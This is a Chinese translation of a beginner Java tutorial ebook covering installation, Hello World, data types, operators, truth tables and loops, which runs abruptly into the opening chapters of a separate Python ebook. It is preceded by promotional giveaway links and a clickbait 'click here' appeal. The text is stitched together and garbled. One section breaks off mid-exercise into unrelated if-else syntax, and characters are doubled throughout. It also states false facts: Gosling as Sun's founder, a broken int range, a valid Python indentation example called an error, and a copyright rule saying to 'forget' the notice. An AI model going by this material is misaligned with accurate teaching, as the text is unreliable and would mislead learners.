# Java Bootcamp：在 2 周内学习 Java 编程基础

## 赠送书籍：

（点击下方任何链接即可进入免费赠送书籍！）

- [赠送书籍：Scrum 训练营](#)
- [赠送书籍：Python 训练营](#)
- [赠送书籍：JavaScript 训练营](#)
- [赠送书籍：C# 训练营](#)
- [赠送书籍：黑客训练营](#)
- [赠送书籍：Excel 训练营](#)
- [赠送书籍：SEO 训练营](#)
- [赠送书籍：SQL 训练营](#)
- [赠送书籍：Python 学院](#)
- [赠送书籍：JavaScript 学院](#)
- [赠送书籍：Windows 10 学院](#)
- [赠送书籍：被动收入任务](#)
- [赠送书籍：14 天原始饮食饮食计划](#)
- 赠送书籍：14 天地中海饮食计划
- 赠送书籍：14 天全食物饮食计划
- 赠送书籍：14 天 DASH 饮食计划
- 赠送书籍：14 天素食饮食计划
- 赠送书籍：14 天奶昔排毒
- 赠送书籍：14 天茶饮排毒
- 赠送书籍：14 天“大扫除”晚餐计划
- 赠送书籍：14 天精油计划
- 赠送书籍：生酮饮食挑战
- 赠送书籍：素食饮食挑战
- 赠送书籍：全食物饮食挑战
- 赠送书籍：10 天绿色奶昔排毒
- 赠送书籍：茶饮排毒挑战
- 赠送书籍：精油挑战
- 赠送书籍：慢锅食谱挑战
- 赠送书籍：原始饮食挑战

## 引言

### 在你开始阅读之前

### >>点击此处<<

我有一个**非常重要**的消息你**必须阅读**

我保证这不是垃圾邮件，我也没有试图向你卖任何东西！

### >>现在点击此处！<<

我想感谢并祝贺你下载《在 2 周内学习 Java 编程基础》这本书。

这本书包含了在两周内学习 Java 编程基础的经过证明的步骤和策略。读完这本书，你应该能够创建简单的程序，或者在学习过程中，通过在编写程序时应用所学内容。

在跳到 Java 编程之前，拥有基础计算机知识是非常重要的。如果你熟悉其他编程语言或 Java，也会会有很大帮助。你可以设计一个程序流并在不同的编程语言中使用它。这就像用英语写写小说然后将其翻译成不同的语言。然而，程序员之所以为设计的程序流选择特定的编程语言是有原因的。你可以说每种编程语言都有独特的特征，能够满足程序员脑海中输出结果的需求。

Java 有许多用途，学习它并不困难。在学习编程语言时，通过示例学习总是更容易的。请期待在本教程中看到大量的示例程序，并预计你将自己完成一些练习。我们会提供输出结果，这样你就知道自己做得是否正确。

书中还将提供基础的 Java 编程语法，以及你应该避免用作变量名的保留字列表。

你会为你选择了这本书作为你的 Java 编程基础学习书籍而感到非常幸的。

感谢下载这本书，希望你喜欢它！

## 第一章：欢迎来到 Java 编程世界

Java 被认为是一种高级编程语言，旨在创建强大、安全的应用程序。它运行在各种平台或操作系统上，如 Windows、Mac OS X、Linux 和多个版本的 UNIX。Java 是一种以灵活性、可维护性和可扩展性而闻名的编程语言。

首先，你需要在你的计算机上安装 Java，或者你可以在这里进行在线编码。正如本电子书引言所述，你需要具备基础的计算机知识。如果你熟悉特定的编程语言或 Java，也会非常有帮助。

### 一点 Java 历史

詹姆斯·高林（James Gosling）创立了太阳微系统。1991 年 6 月，高林开始了 Java 语言项目。它最初被称为 Oak，后来改为 Green。最后，由于特殊原因被命名为 Java。Java 1.0 于 1995 年发布。目前的 Java 标准版是 Java SE8。

2007 年，Java 的核心代码作为免费开源软件发布，除了 Sun 公司不拥有版权的一小部分代码外。

## Java 有几几个优势

Java 是面向对象的，这意味着在涉及 Java 时，一切都是对象。它可以轻松地扩展。

它还被认为是平台无关的，不像 C 和 C++ 等大多数编程语言。当你编译 Java 时，你并不是将其编译成特定平台的机器码，而是将其编译成字节码。上述字节码在网络上传输并由虚拟机对其进行解释。

Java 是简单的，易于学习。然而，最好让你对面向对象编程（OOP）的概念有更深入的理解，这将让你更容易掌握 Java。面向对象编程相对于过程化编程的主要优势之一是它能够让程序员创建不同的模块，即使添加了新类型的对象，这些模块也不需要修改。当你学习 Java 编程时增强对 OOP 的知识，你将理解更多。

Java 具有安全特性；它能够帮助你创建一个防篡改、无病毒的系统。

Java 编译器可以生成与架构无关的对象文件格式。编译后的代码可以在具有 Java 运行时系统的许多处理器上执行。这也使得 Java 具有可移植性。

Java 是动态的；许多程序员认为它实际上比 C++ 或 C 更具动态性。Java 可以有效地适应任何环境。

Java 还有其他优势，当你学习 Java 编程并获得更多关于 OOP 之美的知识时，你将发现它们所有的。

### 开启你的 Java 编程世界之旅所需的物品

你需要一台至少由 Intel Core2Duo 处理器驱动的计算机，并且至少有 1GB 内存。这些实际上是你今天能买到的大多数计算机最基础、甚至更低的配置。如果你的计算机可以玩视频游戏，那么它的性能就足够进行 Java 编程。

你的操作系统（OS）应该是 Windows XP、Windows 7、Windows 8 或 Linux。本书提供了上述平台的设置路径，尽管建议使用提供的链接进行在线编码。

如果你选择在计算机上安装 Java，你需要选择 JDK8。

你还需要微软记事本（Microsoft Notepad）或其他编辑器。

#### 本地环境

如果你想为你的 Java 编程创建一个本地环境，你需要访问此链接免费下载 Java，确保选择与你的操作系统兼容的版本。

选择好适用于 OS 的 Java 后，按照说明正确下载 Java 并运行`.exe`文件，这将允许你在计算机上安装 Java。安装完成后，你需要为特定平台设置路径。

#### Windows 路径

假设你已成功在计算机上安装了 Java，当你尝试查看目录时，看起来如下：

```
c:\Program Files\java\jdk
```

将光标指向“我的电脑”并点击。打开后，右键点击它并选择“属性”（位于选项底部）。

在“高级”选项卡下，你会看到一个名为“环境变量”按钮，你需要点击它。

接下来你需要修改“Path”变量。它需要包含`Java.exe`的路径。如果当前的路径设置为：

```
C:\WINDOWS\SYSTEM32
```

你需要将路径更改为：

```
C:\WINDOWS\SYSTEM32;c:\Program Files\java\jdk\bin
```

#### Linux, UNIX, Solaris, FreeBSD 路径

你需要设置环境变量`PATH`，以正确指向 Java 二进制文件的安装位置。如果你在设置路径时遇到困难，可以参考你的 shell 文档。

例如，如果你使用`bash`，那么你需要添加`export PATH=/path/to/java:$PATH`，它看起来如下：

```
.bashrc: export PATH=/path/to/java:$PATH
```

### 流行的 Java 编辑器

过去的编程语言不需要文本编辑器，与现代编程语言不同，但在进行 Java 编程时你需要使用它。有几个高级的 IDE（集成开发环境）可供你 Java 编程。IDE 是一种为开发人员提供软件创建或开发提供全面功能支持的软件应用程序。IDE 通常由构建自动化工具、调试器和文本编辑器组成。

以下是一些你可以使用的流行文本编辑器：

- 1. Notepad（记事本） – 如果你的电脑运行在 Windows 上，你可以使用内置的记事本编辑器来编写代码。
- 2. Netbeans – 实际上是一个 Java IDE，你可以从此链接免费下载。
- 3. Eclipse – 是另一个由 eclipse 开源社区创建的 Java IDE。你可以从此链接免费下载。

一旦你准备好了一切，我们就可以学习 Java 编程的基础知识，这可以让你更接近独立创建 Java 程序的目标。

## 第 2 章：“Hello Java”，初次接触

“Hello”程序是编程初学者学习的第一课，出于许多原因。该程序向你介绍了开始编写程序时最先需要的几件事，以及你必须学习和使用的一些语法。

为了保持一致，示例将使用使用在线编码（之前已提供链接）。稍后你可以使用自己的`Java.exe`。实际的在线 Java 控制台会显示不同的字体颜色。只有当某个命令或字符/符号需要详细解释时，我们才会在示例中使用不同颜色的字体。

### Hello Java，基础语法

看看下面的示例程序，我们将逐行进行分析：

```
public class FirstProgram {

/* 这是第一个示例。

我们将打印‘Hello Java’作为输出
*/

public static void main(String []args) {

System.out.println("Hello Java"); // 打印 Hello Java
9 }
10 }
```

顺便提一下，极其重要的一点是 Java 是区分大小大小的。在 Java 编程中，标识符`Hello`和`hello`是不同的。确保正确定义所有内容，并在整个程序中一致地使用正确大小写的标识符。

第一行带有类名`FirstProgram`；不要在组成类名的单词之间留空格。类名中包含的下一个单词的首字母应该大写。你的程序应该始终以`public class`（全小写）开头，后跟类名。你看到类名末尾的黄色括号了吗？不要忘记也包含它。它作为一个标记，表示其后的内容是你的程序代码。

你的程序文件名应与你分配的类名相同。在保存文件名时，只需在文件名后添加`java`。看看上面的示例。当你保存它时，请写为`FirstProgram.java`。

第二行是空的，为了让代码更具可读性。

第三行以`/*`开头，在第五行有`*/`。当你需要包含多行注释时使用它们，编译器不会将其视为程序的一部分。你通常包含注释来简单解释一下程序，作为对你自己的的一种提醒，或者帮助负责维护该程序的程序员。

第七行包含方法名，所有的方法名都应该写成小写。方法名总是这样写：

```
public static void main(String []args) {
```

方法名末尾的括号提示程序执行括号内的所有内容（在我们的示例中，右括号在第 9 行）。

在示例中，第 8 行包含一个命令，告诉程序在屏幕上打印‘Hello Java’。命令句末尾应该有一个分号（`;`）。`//`符号是另一种注释，当你只需要进行单行注释时就使用该符号。

`println`是告诉程序打印括号内内容的命令。

确保每个起始括号都有对应的闭合括号。在示例中，第 1 行的左括号在第 10 行有右括号。第 7 行的左括号在第 9 行有右括号。

这里是另一个：

| 1 public class FirstName { |
| 2 public static void main(String []args) { |
| 3 System.out.println("Erika"); |
| 4 } |

它将产生如下结果：

```
Erika
```

此外，确保正确缩进以使代码更具可读性。

你将在下一章中学习更多关于数据类型和变量的知识。

## 第 3 章：数据类型和变量

在本章中，你将学习你将处理的不同数据类型，以及如何给变量赋值。你还将学习不应用作变量名的保留字。

### 整数 (int)

整数可以是正数也可以是负数。零也被视为整数。

`int`是 Java 编程中 integer 的缩写，你稍后会知道它的用法。如果你想打印整数，不需要将其包含在引号中。

看看这个程序：

```
1 public class IntPrinting {
2 public static void main(String []args) {
3 System.out.println(10);
4 }
5 }
```

它将产生结果：

```
10
```

`int`类型可以接受2147483648 之间的值。

### 布尔值 (true or false)

布尔类型只能是`true`或`false`。出于许多原因，它是初学者学习的第一课。对于`true`或`false`，看看这个示例：

```
1 public class BooleanPrinting {
2 public static void main(String []args) {
3 System.out.println(true);
4 }
5 }
```

它将产生结果：

```
true
```

尝试将`true`替换为`me`：

```
1 public class BooleanPrinting {
2 public static void main(String []args) {
3 System.out.println(me);
4 }
5 }
```

它将产生结果：

```
/tmp/BooleanPrinting.java:3: error: cannot find symbol
System.out.println(me);
^
symbol: variable
location: class BooleanPrinting
```

不识别`me`因为它是字符串。打印字符串时，你需要将其放在引号。

### 字符 (char)

`char`类型表示单个字符。所有值必须包含在单引号中；否则你将收到错误信息。看看下面的示例：

```
public class BooleanPrinting {
    public static void main(String []args) {
        System.out.println('r');
    }
}
```

它将给出结果：

```
r
```

`int`、`boolean`和`char`是 Java 的基本数据类型。你将遇到更多。

### 使用变量

你可以在 Java 编程中变量中存储值。在 Java 中使用变量时，你需要指定数据类型。

以下是不应用作变量的 Java 保留字列表：

| abstract | assert | boolean break | long |
| byte | case | catch char | private |
| class | const | continue default | short |
| do | double | else | enum | switch |
| extends | final | finally | float | native |
| for | goto | if | implements | new |
| import | instanceof | int | interface | package |
| transient | protected | public | return | super |
| synchronized | static | strictfp | throws | this |
| volatile | while | try | throw | void |

记住不要以大写字母开始变量，尽管你可以在变量名内部使用大写：

`int myFavoriteNumber = 10;`

你需要在开头写`int`来标识数据类型，`myFavoriteNumber`是变量名，`10`是赋值给它的值。

自己尝试：

- 1.`int`变量`mySampleNumber`必须等于 6。
- 2.`boolean`变量`mySampleAnswer`必须等于`true`。
  - 1.`char`变量`mySampleLetter`必须等于`L`。

给每个变量分配指令赋值。当你运行程序时，你不会在屏幕上看到打印的值。如果你想打印这些值，你需要在程序中添加`System.out.println()`，你将如何做？提示 - 每个需要打印的变量都必须有自己的`System.out.println()`，确保写的是正确的，且不应该是变量的真实值。

仅此一次，你需要在程序中添加以下几行：

```
8 System.out.println(mySampleNumber);
9 System.out.println(mySampleAnswer);
10 System.out.println(mySampleLetter);
```

你将得到此输出：

| | |
|---|---|
| 6 | |
| true | |
| L | |

现在你已经准备好迎接更具挑战性但也更有成就感的课程了。

## 第 4 章：实用表格，随手备用

本章包含了你需要随手备用的不同表格，因为它们可以作为你学习 Java 时的快速参考。如果你能快速记住它们，那会好得多。

### Java 数值运算符

大多数编程语言的数值运算符都使用相同的符号。如果你已经熟悉某门现代编程语言，那么你会发现 Java 的数值运算符符号与你熟悉的编程语言符号大部分是相同的。

| 符号 | 算术 | 示例 |
|---|---|---|
| `+` | 加法 | `8 + 7` |
| `-` | 减法 | `26 - 9` |
| `*` | 乘法 | `9*5` |
| `/` | 除法 | `81/3` |
| `%` | 余数 | `23%3` |

### Java 比较运算符（也称为关系运算符）

如果你熟悉其他现代编程语言的比较运算符，那么记忆下表将非常容易。

| JAVA 比较运算符 | |
|---|---|
| 小于 | `<` |
| 小于等于 | `<=` |
| 大于 | `>` |
| 大于等于 | `>=` |
| 等于 | `==` |
| 不等于 | `!=` |

### 布尔逻辑运算符

布尔逻辑运算符与比较运算符不同，在使用它们时要加小心。

| 布尔逻辑运算符 | |
|---|---|
| 非 (NOT) | `!` |
| 与 (AND) | `&&` |
| 或 (OR) | `||` |
| 异或 (EXCLUSIVE OR) | `^` |

### 不同的真表

| “非 (NOT)”的真表 |
| A | !A |
|---|---|


| 假 (False) | 真 (True) |
|---|---|
| 真 (True) | 假 (False) |

| “与 (AND)”的真表 |
|---|
| E1 | E2 | E1 && E2 |
|---|---|---|
| 假 | 假 | 假 |
| 假 | 真 | 假 |
| 真 | 假 | 假 |
| 真 | 真 | 真 |

*`E1`表示表达式 1，`E2`表示表达式 2，这与其他其余表格相同。*

| “或 (OR)”的真表 |
|---|
| E1 | E2 | E1 \|\| E2 |
|---|---|---|
| 假 | 假 | 假 |
| 假 | 真 | 真 |
| 真 | 假 | 真 |
| 真 | 真 | 真 |

## “异或 (EXCLUSIVE OR)”的真表

| E1 | E2 | E1 ^ E2 |
|---|---|---|
| 假 | 假 | 假 |
| 假 | 真 | 真 |
| 真 | 假 | 真 |
| 真 | 真 | 假 |

如果你能立即记住这些不同的表格将会会更好，这样当你需要确认某些事情时就不需要查阅。你将在后续章节的课程中需要这些表格。

# 第 5 章：数学计算及其他

是时候用 Java 的方式来数学计算了。你可以进行加、减、乘、除并获取余数。这并不难理解，一旦你开始编写自己的程序，你一定会喜欢这些数值运算符。如果你还没有记住 Java 中不同数值运算符的符号，你可以随时回到第 4 章查看数值运算符表格。

## 尝试 Java 加法

你可以创建一个这样的程序：

```
public class AdditionProgram {
    public static void main(String[] args) {
        System.out.println(5 + 9);
    }
}
```

你也可以像这样使用变量：

```
public class AdditionProgram {
    public static void main(String[] args) {
        int a = 5;
        int b = 6;
        System.out.println(a + b);
    }
}
```

## 尝试 Java 减法和其他数学操作

以上面的示例为指南，创建一个用于减法、乘法、除法和余数（也称为取模）的简单 Java 程序。你可以尝试自己练习，直到掌握它。练习得越多，你会发现它的挑战性就越小。那时，你会发现使用 Java 更加舒适。

## 比较运算符

比较运算符也称为关系运算符。它们比较数据类型，并始终给你一个布尔值，即真（`true`）或假（`false`）。如果你仍然不熟悉该表，在你开始使用关系运算符时可以回去查看。

比较运算符位于两个数据（用作操作数）之间。如果你打印这条语句：

```
System.out.println(9<7);
```

你将得到一个假（`false`）答案。当 Java 程序遇到带有关系运算符的语句时，它会识别出自己应该给出一个布尔答案。

等于（`==`）和不等于（`!=`）运算符也称为相等运算符。在 Java 编程中，程序员可以使用相等运算符来测试数据的相等性。程序员可以跨`int`、`boolean`或`char`数据类型测试相等性。看下例示例：

```
char sampleChar = 'L';
```

```
int sampleNum = 5;
```

```
System.out.println(sampleChar==sampleNum);
```

上面的示例将在屏幕上打印“false”，因为变量`sampleChar`中的值与变量`sampleNum`拥有的值不同。

## 一些可以尝试的练习

现在你可以通过这个简单的编程练习来测试你学了多少。不要担心；如果你觉得有点挑战性，稍后会看到正确的代码。如果你看到错误信息，阅读该信息并尝试找出你犯的错误。有时，一个简单的类型错误就会危及整个程序，除非你立即发现它。确保你正确使用了大和小字母。

1. 将‘this is my program’声明为你的类；在编写程序时确保编写正确。
2. 写一行单行注释，内容均可。
3. 给布尔变量`isAnything`赋值为‘false’。
4. 给`int`变量`isTooMuch`赋值为‘789’。
5. 将`isTooMuch`乘以 3 的赋值给`int`变量`isMuchMuch`。
6. 打印`isAnything`的值。

```
<statement action>
} else {
<statement action>
```

请看下面的示例程序：

```
public class IfElseStatementDemo {

    public static void main(String[] args) {
        int a = 20, b = 20;

        if (a > b) {
            System.out.println("a is greater than b");
        } else if (a < b) {
            System.out.println("b is greater than a");
        } else {
            System.out.println("a is equal to b");
        }
    }
}
```

如果你尝试去分析它：

第 4 行提供了程序运行所需的给定数据。

第 5 行包含一个条件，如果`a`大于`b`，则它将打印“a is greater than b”。如果你查看给定的数据，该语句是假的，这促使程序执行下一条语句，即`else`语句。

第 7 行提供了另一个选项或条件；遗憾的是，它仍然是假的。

剩下的就是打印“`a` is equal to `b`”。

程序不会执行`if`或`else-if`语句下的语句，因为这两个语句都是假的。然而，底部的`else`语句没有提供任何条件，它告诉程序打印“`a` is equal to `b`”，这实际上是真的。

尝试更改程序中的给定数据，看看程序的响应。

# Switch（分支语句）

`switch`语句也称为`case`语句，你为用户提供不同的选项，程序将执行它。`switch`语句类似于`if-else`语句，其中呈现了选项，程序将寻找第一个被证明为真的选项。它将执行返回值为真的`if-else`选项下的语句。

`switch`语句比`if-else`语句更有序。如果以有序的方式进行编码，维护程序也更容易。如果你有许多选项要展示，就应该使用`switch`语句。

以下是`switch`语句的语法：

```
switch (<non-long integral expression>) {
    case 1:
        <statement 1>
        break;
    case 2:
        <statement 2>
        break;
    case n:
        <statement 2>
        break;
    default:
        <statement>
} // end of switch or case statement
```

请看下面的示例程序：

```
public class SwitchCaseStatementDemo {

    public static void main(String[] args) {
        int a = 10, b = 30, c = 20;
        int response = 0;
        if (a > b && a > c) {
            response = 1;
        } else if (b > a && b > c) {
            response = 2;
        } else if (c > a && c > b){
            response = 3;
        }
        switch (response) {
            case 1:
                System.out.println("a is the biggest number");
                break;
            case 2:
                System.out.println("b is the biggest number");
                break;
            case 3:
                System.out.println("c is the biggest number");
                break;
            default:
                System.out.println("Error encountered, try again");
        }
    }
}
```

你需要初始化`int response`，这是你的`switch`语句所需要的。如果你删除了它，你的程序将无法工作。

你可以更改需要处理的数据并查看结果。你可以尝试更改每个`if-else`语句下的条件，看看会发生什么。请确保当你更改某些内容时，该更改与整个程序保持一致。否则，你的程序将无法工作或产生不同的结果。

# 循环语句（Loop Statements）

循环语句是：`while`语句、`do-while`语句和`for`语句。

## while 语句

`while`语句告诉程序当条件或语句保持为真时继续执行其下方的代码块。只有当语句变为假时，程序才会停止重复或执行代码的指令。

这是`while`循环的语法：

```
while (<loop condition>)
    <statements>
```

这里是示例程序：

```
public class SampleWhileLoop {
    public static void main(String[] args) {
        int count = 1;
        System.out.println("Output Numbers 1-10");
        while (count != 11) {
            System.out.println(count++);
        }
    }
}
```

我们需要将`int count`初始化为 1。在第 6 行，它仅意味着当`count`等于 11 时，它将不再打印任何内容。在第 7 行，`count++`告诉程序将`count`加 1，因此在下一次循环中它将打印 2。它需要再次增加`count`，在下一次循环中它将打印 3。

## do-while 语句

`do-while`语句告诉程序在条件或语句保持为真时继续执行其下方的代码块，但它至少会执行一次。

这是`do-while`循环的语法：

```
do {
    <statements>
} while (<condition>);
```

这里是示例程序：

```
public class SampleDoWhile {

    public static void main(String[] args) {
        int count = 1;
        System.out.println("Output Numbers 1-10");
        do {
            System.out.println(count++);
        } while (count <= 10);
    }
}
```

## for 语句

`for`语句通常用于执行特定次数次数代码块。它在知道循环次数时非常有用。

这是`for`语句的语法：

```
for (<initialization>; <condition>; <update>) {
    <statements>
}
```

这里是示例程序：

```
public class SampleForLoop {

    public static void main(String[] args) {
        System.out.println("Output Numbers 1-10");
        for (int i = 1; i <= 10; i++) {
            System.out.println(i);
        }
    }
}
```

*学习 Python 编程基础*

我想感谢你并祝贺你下载了《两周内学会 Python 编程基础》这本书。

这本书包含了关于如何在 Python 中编写和运行程序的经过验证的步骤和策略。书中包含你可以作为指南的示例代码和程序。

书中还包含了对该编程语言的介绍，包括简短的历史和 Python 的基础知识。它还对 Python 中的各项功能进行了详细解释。

再次感谢你下载这本书，希望你喜欢！

# 第 1 章：Python 简介介绍

如果你正在寻找一种以代码可读性为主要关注点的通用、高级编程语言，那么你应该考虑 Python。它的语法允许你用比 C、C++ 和 Java 等编程语言更少的代码来表达概念。它支持广泛的编程范式，因此涵盖了命令式、函数式和面向对象的编程。此外，它还拥有完善的标准库和自动内存管理机制。

你有许多解释器可以安装在不同的操作系统上；因此，你完全可以在各种系统上执行 Python。你甚至可以使用第三方应用程序。如果你不想安装解释器，可以将代码打包成独立的可执行程序，以便你有效地向不同环境分发基于 Python 的软件。

Python 由 Guido van Rossum 在 20 世纪 80 年代开发。它最初只是一个圣诞项目。Van Rossum 想要为 C 和 UNIX 黑客使用的脚本语言创建一个解释器。他的小项目最终升级到了 Python 2.0，并于 2000 年 10 月发布。这个新版本具有完整的垃圾回收和 Unicode 支持。Python 3.0（也称为 Python 3000 和 py3k）于 2008 年 12 月发布，其功能已回溯到 2.6 和 2.7 版本。

编程语言的存在是有原因的。例如，Python 的开发是为了让程序员能够创建高效且高效的产品。它的主要目标是帮助初学者轻松、快速地学习编程语言。由于学习时间更短，你可以创建更多实用的应用程序，而这些用晦涩复杂的编程语言很难实现。

使用 Python，你在编写应用程序时还可以受益于更短的开发时间。如前所述，Python 代码量比 C、C++ 和 Java 少。它的代码实际上短了五到十倍；因此，它更高效、更不复杂。你可以花更少的时间开发应用程序，花更多的时间来调优和改进它们。

在检查 Bug 和错误时，你所使用的编程语言易读易懂至关重要。如果编程语言太复杂，你可能会在编写和检查程序时遇到困难。使用 Python，代码更容易读和写；因此，你可以轻松地解释代码并进行必要的更改。

此外，Python 还有许多其他用途。它是基于浏览器的脚本应用程序、创建优秀的用户界面和粗略的应用示例、与数据库交互、处理 XML 以及设计数学、工程和科学应用的理想选择。

你可能会发现比较不同的编程语言是一项主观的任务。通常，它们的差异取决于个人偏好。尽管如此，有时这种比较会有科学数据支持。无论如何，你必须记住，并不存在全能的编程语言。作为程序员，你只需要找到一个最适合你目标或需求的语言即可。

如果你有 Java 背景，可能会发现 C# 和 Java 非常相似。但尽管如此，与 Java 相比，C# 仍然有自己的优缺点。微软声称，他们开发 C# 的首要目标是产生一个更好的 C 和 C++ 版本。然而，与 C# 相比，Python 在科学和工程应用方面具有更好的多平台支持。在在使用 C、C++ 和 Java 时，它更具扩展性。它更容易学习和理解，并允许使用各种计算机环境。它的代码更加简洁。

程序员将 Java 视为“一站式”编程语言。多年来，他们一直在寻找可以随处运行和编写的东西，并发现了 Java，它可以在不同的平台和计算机环境中良好运行。如此，Python 也是一种一站式编程语言。它与 Java 非常相似，只是代码更简洁，更容易学习和理解。它的开发速度快得多，并且改进了可以存储不同数据的数据容器或变量，这在运行应用程序时非常有用。

PERL 代表实用提取和报告语言。它是一种适用于从另一个数据库获取和处理数据的编程语言。之下之下，Python 优于 PERL，因为它更容易阅读、实现、学习和理解。它具有更好的 Java 集成和数据保护，平台特定的偏见更少。

如果你刚刚开始编程，可能想考虑 Python。它对初学者来说是理想的，因为它具有一致且简单的语法和海量的标准库，允许你完成多个项目。涉及的作业不仅限于常见的四功能计算器和平衡检查程序。

当你习惯了用 Python 编写程序后，你会发现制作现实应用程序其实很容易。交互式解释器还允许你测试语言特性。在 Python 中，你可以专注于核心编程技能，如程序分解和数据类型设计，以及基础概念（包括过程和循环）。

由于 Python 涉及到多个库和系统调用，你可以开发具有易编程界面的应用程序。你还可以完成应用程序接口（API）所需的任务。

如果你从未用过任何编程语言，请不要担心。即使是没有任何编程知识或经验的人也可以轻松掌握 Python 编程语言的基础。

关于安装，Python 很容易安装。大多数 UNIX 和 Linux 发行版实际上都包含在软件包中。如果你从惠普（HP）购买了 Windows 电脑，你可以直接使用 Python，因为系统预装了它。

为了让你更方便，你应该学习如何使用文本编辑器以及集成开发环境（IDE）。阅读带有示例代码和程序的编程书籍也会很有帮助。

关于版权，Python 开发者允许程序员对源代码做任何想做的事，只要忘记包含版权即可。版权规则并不严格。你甚至可以出售二进制或源代码形式的副本，以及涉及 Python 产品。然而，如果你想使用标志，请确保获得许可。

Python 非常稳定。事实上，它足够日常使用。你可以预计六到十八个月内出一个新版本。开发者发布修复版本以确保新版本比旧版本更好。

如果你想进行静态分析或搜索 Bug，可以使用`Pylint`或`PyChecker`。前者是一个检查模块是否符合编码标准的工具，并允许自定义插件。后者是一种寻找源代码中 Bug 的静态分析工具。


现在你已经学习了这种编程语言的基础知识，你可能仍在好奇 Python 为什么叫这个名字。Guido van Rossum 喜欢蟒蛇吗？事实上，他喜欢的是一部名为《蒙提派瑟的飞行戏团》（Monty Python’s Flying Circus）的电视节目，而不是爬行动物。

在 Python 开发期间，他正在阅读这部喜剧剧的脚本，认为“Python”是一个合适的名字，因为它简短、独特，并且恰到好处的神秘感。事实上，在文档中允许并实际上鼓励对该喜剧剧进行引用。

# 第 2 章：语法

Python 具有简单且直观的语法。它甚至鼓励程序员在不使用预定义或样板代码的情况下编写程序。`print`指令实际上是所有指令中最简单的。它会打印内容并包含换行。你可能会发现，在编程语言的新版本中，`print`指令有所不同。

Python 2.0 是更常用的版本，而 Python 3.0 支持最新功能且在语义上更正确。无论如何，在 2.0 版本中`print`语句不被视为函数；因此，你可以在代码中不包含括号的情况下调用它。另一方面，在 3.0 版本中，`print`语句被视为函数，因此，如果你想调用它，必须使用括号。

## 交互模式编程

你可以在不同的模式下执行程序。如果你在调用解释器时不传递脚本文件作为参数，你将得到这些：

```
$ python
Python 2.4.3 (#1, Nov 11 2010, 13:34:43 )
[GCC 4.1.2 20080704 ( Red Hat 4.1.2 – 48)] on linux
Type “ help ” , “ copyright ”, “ credits ” or “ license ” for more information.
>>>
```

当你看到这个提示符时，可以输入所需的文本然后按回车。在这个示例中，我们将使用“蒙提派瑟与圣杯”这些词。

```
>>> print “ Monty Python and the Holy Grail ” ;
```

注意，如果你使用的是编程语言的新版本，你需要在`print`语句中使用左括号和右括号，如下：

```
>> print ( " Monty Python and the Holy Grail " );
```

无论你使用哪个版本，如果你运行上述的示例代码，将得到以下输出：

```
Monty Python and the Holy Grail
```

## 脚本模式编程

如果你带上脚本参数调用解释器，脚本将开始执行并持续到运行结束。完成后，解释器将不再处于激活状态。考虑以下示例。示例程序写在脚本中并具有`.py`扩展名：

```
print “ Monty Python’s Flying Circus ” ;
```

如果你在`test.py`文件中输入上述源代码并运行它：

```
$ python test.py
```

你将获得以下输出：

```
Monty Python’s Flying Circus
```

执行脚本的另一种方法是修改`.py`文件，例如：

```
#! /usr/bin/python
print “ Monty Python’s Flying Circus ” ;
```

如果你是这样运行它的：

```
$ chmod +x test.py
$ ./test.py
```

你得到以下输出：

```
Monty Python’s Flying Circus
```

标识符基本上用于确定函数、变量、模块、类以及任何其他对象。它以下划线（`_`）或字母开头。随后紧跟的是数字、下划线、零或其他字母。作为程序员，可以自由使用任何字母或数字。你可以使用大写和小写字母。

然而，你不能在标识符中使用标点符号和特殊字符，例如`@`、`$`和`%`。此外，Python 是一种大小敏感的编程语言。这意味着在代码中使用大写和小写字母时必须小心。例如，`wendy`、`Wendy`和`WENDY`都是同一个名称，但在 Python 中被视为三个不同的标识符。

## Python 中的标识符规则

在 Python 中编写程序时，你必须遵守若干规则：

- 类名必须以大写字母开头，而其他标识符必须以小写字母开头。
- 如果标识符以单个前下划线开头，则是私有的。
- 如果标识符以双前下划线开头，则它是强私有的。
- 如果标识符以两个后下划线结尾，则它是语言定义的特殊名称。

注意，在 Python 中某些词不能用作常量、标识符名称或变量。所有关键字都使用小写字母编写。以下是该编程语言保留字表：

| And | Assert | Break | Class | Continue |
|---|---|---|---|---|
| def | del | elif | else | except |
| exec | finally | for | from | global |
| if | import | in | is | lambda |
| Not | or | pass | print | raise |
| return | try | while | with | yield |

## 缩进与行

Python 中没有使用大括号来表示类定义和函数的代码块。同样，流程控制也不包含在内。如果你想表示代码块，必须使用行缩进。你可以调整为空格，但要确保对块中的所有语句都进行缩进。为了帮助你进一步理解，请考虑以下示例代码：

```
if True:
    print “ Correct ”
else:
    print “ Incorrect ”
```

```
if True:
    print “ Input ”
    print “ Correct ”
else:
    print “ Input ”
    print “ False ”
```

运行第一个示例会生成输出。然而，运行第二个会导致错误。为什么会发生这种情况？嗯，你必须记住，在 Python 中，代码块是通过用相同数量的空间缩进连续行来形成的。

缩进仅仅是分组语句的方法。程序员用它来代替代码块的大括号。支持制表符（Tabs）和空格，但标准缩进要求标准代码具有相似数量的空格。通常，使用四个空格。看下面的示例：

```
w = 1
if w == 1:
    # 这显示了刚好四个空格的缩进
    print "w is 1"
```

## 缩进的误言

关于 Python 缩进存在某些误言。以下是其中一些：

- 每个源代码中都必须有空白。

实际上，你并不需要在所有的源代码中使用空白。空白并不一定是重要的，尽管缩进是重要的。正如你所学到的，这是位于语句最左侧的空白。在其他任何地方，空白并不那么重要，并且可以省略。你可以以你喜欢的任何方式使用它，甚至在程序的任何地方插入任意的空白或不包含任何内容的空行。

此外，缩进的精确数量并不重要，但嵌套块的相对缩进才重要。当你使用隐式或显式的延续行时，缩进级别实际上不会被识别。例如，你可以将列表跨越多行。缩进完全不重要。看下面的示例：

```
foo = [
    'a string',
    'another string',
    'a short string'
]
print foo
```

如果你运行上述代码，你将得到以下输出：

```
['a string', 'another string', 'a short string']
```

这是另一个示例：

```
bar = 'look at this example \\\n    of a long string \\\n    that is split \\\n    across multiple lines '
print bar
```

如果你运行上述代码，你将获得以下输出：

```
look at this example of a long string that is split across multiple lines
```

- 你的程序中应该使用特定的缩进风格。

嗯，这个说法既是对的也是错误的。你可以将内部块写在一行而不对其进行缩进。你可以使用以下`if`语句的任何版本，因为它们都是有效的且产生相同的输出：

```
if 1 + 1 == 2:
    print "foo"
    print "bar"
    w = 99
```

```
if 1 + 1 == 2:
    print "foo" ; print "bar " ; w = 99
```

```
if 1 + 1 == 2 : print "foo " ; print "bar " ; w = 99
```

作为程序员，你可能希望将你的代码块写在单独行，如第一个示例所示。然而，在某些情况下，有一些类似的`if`语句可以方便地写在每一行中。

